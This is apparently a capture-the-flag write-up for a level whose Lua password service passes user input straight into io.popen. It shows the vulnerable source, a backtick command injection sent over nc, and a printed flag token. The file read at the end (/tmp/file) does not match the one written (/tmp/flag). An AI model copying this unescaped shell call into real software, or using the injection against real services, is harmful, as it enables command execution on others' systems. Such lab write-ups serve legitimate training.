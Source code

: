 # level11 solve

To begin, when we get logged and trying to see if we got the file we can see we have one file

```
$ ls
> level11.lua
```

It's a <a href="https://fileinfo.com/extension/lua">Lua</a> file, so we decide to check what he contain. 

And multiple line was interesting.

```lua
 1  #!/usr/bin/env lua
 2  local socket = require("socket")
 3  local server = assert(socket.bind("127.0.0.1", 5151))
 4  function hash(pass)
 5    prog = io.popen("echo "..pass.." | sha1sum", "r")
 6    data = prog:read("*all")
 7    prog:close()
 8    data = string.sub(data, 1, 40)
 9    return data
10  end

11  while 1 do
12    local client = server:accept()
13    client:send("Password: ")
14    client:settimeout(60)
15    local l, err = client:receive()
16    if not err then
17        print("trying " .. l)
18        local h = hash(l)
19        if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
20            client:send("Erf nope..\n");
21        else
22            client:send("Gz you dumb*\n")
23        end
24    end
25    client:close()
26  end
```

But two were more intriguing than the others, <a href="https://man7.org/linux/man-pages/man3/popen.3.html">popen</a> and <a href="https://opensharing.fr/commandes-linux-sha1sum">sha1sum</a>

```
$ man popen
> The popen() function opens a process by creating a pipe, forking,
> and invoking the shell.  Since a pipe is by definition
> unidirectional, the type argument may specify only reading or
> writing, not both; the resulting stream is correspondingly read-
> only or write-only.
> 
> The command argument is a pointer to a null-terminated string
> containing a shell command line.  This command is passed to
> /bin/sh using the -c flag; interpretation, if any, is performed
> by the shell.
```

After that we conclude that was popen the thing to work with,
so let's try to connect on the listenner

remember :

```
> 3  local server = assert(socket.bind("127.0.0.1", 5151))
```

```
$ nc localhost 5151
> password : 
```

Maybe we need to inject code for the popen, let's try

```
$ nc localhost 5151
> password : `getflag` > /tmp/flag
```

Verifying the file

```
$ cat /tmp/file
> Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s
```

We got it!

> <a href="../flag">flag</a> - <a href="../../level10">previous level</a> - <a href="../../level12">next level</a>
